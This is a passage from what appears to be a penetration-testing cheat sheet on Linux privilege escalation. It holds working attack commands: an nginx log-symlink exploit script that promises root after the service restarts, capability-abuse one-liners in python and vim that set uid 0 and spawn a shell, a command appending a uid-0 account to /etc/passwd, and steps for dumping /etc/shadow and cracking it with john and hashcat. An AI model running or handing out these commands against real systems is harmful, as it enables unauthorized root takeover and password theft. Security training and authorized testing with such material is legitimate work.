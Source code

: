**Attack:**

As the /var/log/nginx directory is owned by www-data, it is possible for local attackers who have gained access to the system through a vulnerability in a web application running on Nginx (or the server itself) to replace the log files with a symlink to an arbitrary file.

Upon nginx startup/restart the logs would be written to the file pointed to by the symlink.

This allows attackers to escalate privileges to root.

```
./nginxed-root.sh /var/log/nginx/error.log
```

Wait for the service to restart (everyday at 6:25) and you should get root.

### Capabilities

We can use the getcap tool to list enabled capabilities.

```
getcap -r / 2>/dev/null
```

When run as an unprivileged user, getcap -r / will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.

Check GTFOBins.

Examples:
```
/usr/bin/python2.6 = cap_setuid+ep
/home/user/openssl =ep

view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")' 

vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")' 

python -c 'import os; os.setuid(0); os.system("/bin/sh")' 

tar -cvf shadow.tar /etc/shadow;tar -xvf shadow.tar;cat etc/shadow
```

### Read Write Files

**Write /etc/passwd**

```
openssl passwd w00t
echo "root2:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

**Read /etc/shadow**

```
cat /etc/shadow
unshadow <copy-passwd> <copy-shadow> > unshadowed.txt

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

hashcat -m 1800 unshadowed.txt rockyou.txt
```
